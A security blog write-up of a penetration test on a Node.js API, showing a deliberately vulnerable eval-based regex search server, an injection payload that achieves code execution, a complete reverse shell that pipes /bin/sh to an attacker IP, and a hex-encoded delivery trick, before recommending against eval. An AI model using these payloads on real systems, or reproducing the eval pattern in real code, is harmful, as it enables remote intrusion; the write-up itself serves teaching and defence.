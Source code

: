 ```yaml
---
title: Reverse shell on a Node.js application
date: '2016-05-30'
author: Duyet
tags:
  - Nodejs
  - Reverse shell
  - Security
  - Node.js
  - vulnerable
modified_time: '2016-05-30T23:12:07.074+07:00'
slug: /2016/05/reverse-shell-on-nodejs-application.html
category: Javascript
description: How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.
---
```


How we obtained a Javascript reverse shell by exploiting a vulnerability on a Node.js application during a security assessment.

## Introduction

We were tasked by a small web developer team to perform a security assessment of their mobile app backend which is a REST API.

The architecture is rather simple there is only three Linux servers.

- Node.js
- MongoDB
- Redis

First we performed a few arbitrary tests without access to the source code and we discovered that a few unexpected input at some endpoints would crash the backend application.
We also noticed that the redis server was accessible from the WAN without authentication.

Our next step was to review the Node.js API code and understand the crashes.

## Simplified vulnerable application

We created this small Node.js application with the vulnerable function if you want to try to exploit it yourself.
This Node.js web server will wait for a query such as `http://target.tld//?name=do*` and search for animal names matching that query.

```
'use strict'
const http = require('http');
const url = require('url');
const path = require('path');

const animalsJSON = path.join(__dirname, 'animals.json');
const animals = require(animalsJSON);

function requestHandler(req, res) {
    let urlParams = url.parse(req.url, true);
    let queryData = urlParams.query;
    res.writeHead(200, {"Content-Type": "application/json"});

    if (queryData.name) {
        let searchQuery = stringToRegexp(queryData.name);
        let animalsResult = getAnimals(searchQuery);
        res.end(JSON.stringify(animalsResult));
    } else {
        res.end();
    }
}

function getAnimals(query) {
    let result = [];

    for (let animal of animals) {
        if (query.test(animal.name))
            result.push(animal);
    }

    return result;
}

function stringToRegexp(input) {
    let output = input.replace(/[\[\]\\\^\$\.\|\?\+\(\)]/, "\\$&");
    let prefix, suffix;

    if (output[0] == '*') {
        prefix = '/';
        output = output.replace(/^\*+/g, '');
    } else {
        prefix = '/^';
    }

    if (output[output.length - 1] == '*') {
        suffix = '/i';
        output = output.replace(/\*+$/g, '');
    } else {
        suffix = '$/i';
    }
    output = output.replace(/[\*]/, '.*');

    return eval(prefix + output + suffix);
}

const server = http.createServer(requestHandler);
server.listen(3000);
```

```
[
    {"name": "Dinosaur"},
    {"name": "Dog"},
    {"name": "Dogfish"},
    {"name": "Dolphin"},
    {"name": "Donkey"},
    {"name": "Dotterel"},
    {"name": "Dove"},
    {"name": "Dragonfly"},
    {"name": "Duck"}
]
```

## The vulnerability

After a few minutes of analyzing the buggy endpoints in the code we noticed a bad practice issue that could lead to remote code execution.
The `stringToRegexp` function is evaluating user input to create a `RegExp` object and use it to find elements in an array.

```
return eval(prefix + output + suffix); // we control output value
```

We can insert our own Javascript code in the output variable and execute it.
The stringToRegexp function will escape some characters and the output value will be evaluated.

```
["./;require('util').log('Owned');//*"]
```

Visiting the address below will print a message on the server terminal.
`http://target.tld/?name=["./;require('util').log('Owned');//*"]`

From there it would be nice to execute code to have an interactive shell such as `/bin/sh`.

## The Node.js reverse shell

The Javascript code below is a Node.js reverse shell.
The payload will spawn a /bin/sh shell, create a TCP connection to the attacker and attach the shell standard streams to it.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

To execute the payload gracefully we used a little trick, we encoded our reverse shell payload to hexadecimal and used the Node.js Buffer object to decode it.
`http://target.tld/?name=["./;eval(new Buffer('PAYLOAD', 'hex').toString());//*"]`

## Conclusion

It's highly recommended to avoid using the `eval` function in a Javascript project.
The fix was rather simple, they started using using the `RegExp` object directly.
See origin post here: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)
